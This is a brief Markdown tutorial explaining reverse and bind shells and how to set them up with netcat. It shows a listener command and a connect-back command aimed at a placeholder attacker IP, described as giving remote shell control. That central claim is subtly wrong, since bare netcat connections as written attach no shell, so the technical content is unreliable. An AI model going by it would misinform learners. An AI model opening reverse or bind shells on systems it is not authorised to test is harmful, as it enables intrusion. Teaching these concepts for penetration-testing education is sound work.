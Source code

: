 ```yaml
---
title: Reverse shells and bind shells
description: An introduction to reverse shells and bind shells using netcat.
tags:
  - cybersecurity
  - linux
---
```


Reverse shells and bind shells are types of network connections used in hacking and penetration testing.

A reverse shell is when the attacker makes a target computer connect back their own computer, where they can then control the target's shell. To do this, the attacker uses special tools to set up a 'listener' on the attacking computer, which waits for the target to connect.

In contrast, a bind shell is when a attacker makes the target computer run a 'listener' directly, that allows the attacker to connect and control it.

A reverse or bind shell is usually established after a target computer has been exploited. In this article we will not be discussing how to exploit a target, but we will be covering how to establish a reverse or bind shell using a tool called netcat.

## Netcat

Netcat is a command-line tool used for network communication. It can be used to receive reverse shells and connect to remote ports attached to bind shells on a target system.

One of netcat's main advantages is its wide availability. Netcat is preinstalled on many Linux distributions, and it can be also installed on Windows.

When establishing a **reverse shell**, we need to start a listener on the attacking computer, and then connect to it from the target computer.

We can set up the listener on the attacking computer with `nc -lvnp <PORT>`, e.g. `nc -lvnp 4444`.

The `-lvnp 4444` options are:

- `l` = listen mode
- `v` = verbose mode
- `n` = numeric only (IP address), don't use DNS
- `p 4444` = listen on port `4444`

Now, we need connect to the listener from the target computer. To do this, we use `nc <ATTACKER-IP> <PORT>`, e.g. `nc 10.10.20.20 4444` if the attacker's IP is `10.10.20.20` and the attacker is listening on port `4444`.

Once the connection is established, we will be able to send shell commands to the target's shell from the attacker's computer! 🎉

When establishing a **bind shell**, we need to start a listener on the target computer, and then connect to it from the attacking computer.

Set up the the listener on the target computer with `nc -lvnp <PORT>`, and then connect to the listener from the attacking computer with `nc <TARGET-IP> <PORT>`.

When setting up reverse and binding shells, keep in mind:

- The port on the listener can be blocked by firewalls, so be sure to find a port that is open.
- Administrative permissions (i.e. `sudo`) are needed when listening on a port below `1024`.
